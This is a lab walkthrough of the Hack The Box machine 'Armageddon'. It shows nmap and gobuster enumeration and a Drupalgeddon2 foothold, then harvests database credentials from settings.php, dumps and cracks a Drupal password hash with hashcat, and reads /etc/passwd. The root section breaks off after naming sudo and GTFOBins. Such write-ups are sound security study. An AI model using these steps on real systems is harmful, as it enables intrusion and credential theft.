





# Armageddon
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 17:41 BST
Nmap scan report for 10.10.10.233 (10.10.10.233)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.20 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php -no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.233
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/08/07 18:29:26 Starting gobuster in directory enumeration mode
===============================================================
/index.php            [Size: 7440]
/misc                 [Size: 233] [--> http://10.10.10.233/misc/]
/themes               [Size: 235] [--> http://10.10.10.233/themes/]
/modules              [Size: 236] [--> http://10.10.10.233/modules/]
/scripts              [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                [Size: 234] [--> http://10.10.10.233/sites/]
/includes             [Size: 237] [--> http://10.10.10.233/includes/]
/install.php          [Size: 3172]
/profiles             [Size: 237] [--> http://10.10.10.233/profiles/]
/update.php           [Size: 4057]
/README.txt           [Size: 5382]
/robots.txt           [Size: 2189]
/cron.php             [Size: 7388]
/INSTALL.txt          [Size: 17995]
/LICENSE.txt          [Size: 18092]
/CHANGELOG.txt        [Size: 111613]
/xmlrpc.php           [Size: 42]
/COPYRIGHT.txt        [Size: 1481]

```
- Web Server
  - We see `Drupal 7`




## Foothold
- `Drupal` version and `searchsploit`


- We have `drupalgeddon3` and `drupalgeddon2`
  - Let's start with `drupalgeddon2` 
  - There is a [github post](https://github.com/dreadlocked/Drupalgeddon2)
  - Got reverse shell, but couldn't upgrade the shell





## User
- Enumerate users
```
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
- `grep -irln "password" .` in `/var/www/html`
  - We see `./sites/default/settings.php`
  - `drupaluser:CQHEy@9M*m23gBVj`



- Since these are `mysql` creds, let's check `db`
  - I have to run db commands from cmd, since I don't have PTY

```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
Tables_in_drupal
actions
authmap
batch
...
users
users_roles
variable
watchdog
```
```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'
<er -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

- Let's crack the hash with `hashcat`
  - `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`
  - `hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt`
  - `brucetherealadmin:booboo`


- `ssh` as `brucetherealadmin`



## Root
- Enumerate `sudo` rights
  - [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)


- 